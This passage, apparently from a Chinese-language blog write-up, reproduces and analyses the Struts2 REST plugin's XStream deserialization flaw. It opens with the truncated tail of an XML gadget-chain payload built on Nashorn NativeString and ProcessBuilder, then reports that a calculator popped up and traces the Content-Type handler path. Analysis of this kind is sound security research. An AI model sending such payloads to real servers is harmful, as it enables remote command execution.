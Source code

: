```xml
                    </method>  
                    <name>foo</name> 
                  </filter>  
                  <next class="string">foo</next> 
                </serviceIterator>  
                <lock/> 
              </cipher>  
              <input class="java.lang.ProcessBuilder$NullInputStream"/>  
              <ibuffer/>  
              <done>false</done>  
              <ostart>0</ostart>  
              <ofinish>0</ofinish>  
              <closed>false</closed> 
            </is>  
            <consumed>false</consumed> 
          </dataSource>  
          <transferFlavors/> 
        </dataHandler>  
        <dataLen>0</dataLen> 
      </value> 
    </jdk.nashorn.internal.objects.NativeString>  
    <jdk.nashorn.internal.objects.NativeString reference="../jdk.nashorn.internal.objects.NativeString"/> 
  </entry>  
  <entry> 
    <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>  
    <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/> 
  </entry> 
</map>
```

请求发出后，可以看到命令被成功执行，弹出了计算器：
![reproduce]({{ site.url }}/images/articles/201709/struts2/reproduce.png)

## 2.2 漏洞分析

根据官方公告描述漏洞是出现在XStreamHandler中对xml内容进行反序列化过程出现的漏洞，XStreamHandler类主要有fromObject()/toObject()两个方法。我们在toObject()中下一个断点，可以看到上层调用栈中，`ContentTypeInterceptor类`会根据请求包的`Content-Type`选择对应的Handler进行处理。当Content-Type为"application/xml"时，调用`XStreamHandler.toObject()`。

![stack]({{ site.url }}/images/articles/201709/struts2/stack.png)

在XStreamHandler.toObject()中，调用 XStream.fromXML() 对xml内容进行反序列化。实际上这个漏洞是XStream中的反序列化问题。

### 2.2.1 XStream的反序列化漏洞

去年Jenkins三月份修复了一个可通过低权限用户调用API服务致使的命令执行漏洞（CVE-2016-0792）。低权限用户通过构造一个恶意的XML文档并发送至服务端接口，使服务端解析时调用API执行外部命令。
